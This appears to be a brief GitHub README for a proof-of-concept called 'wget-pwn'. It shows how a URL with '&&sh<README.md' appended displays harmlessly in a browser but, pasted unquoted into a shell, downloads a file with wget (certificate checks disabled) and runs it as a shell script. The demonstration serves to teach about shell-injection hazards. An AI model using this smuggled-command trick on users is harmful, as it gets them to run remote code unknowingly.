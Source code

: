 wget-pwn
=========


A click on the following link in your webbrowser will only display this readme file.


[README.md](https://raw.githubusercontent.com/markus-perl/wget-pwn/master/file/README.md&&sh<README.md)


But downloading this file unescaped with wget will execute arbitary code.


    wget --no-check-certificate https://raw.githubusercontent.com/markus-perl/wget-pwn/master/file/README.md&&sh<README.md
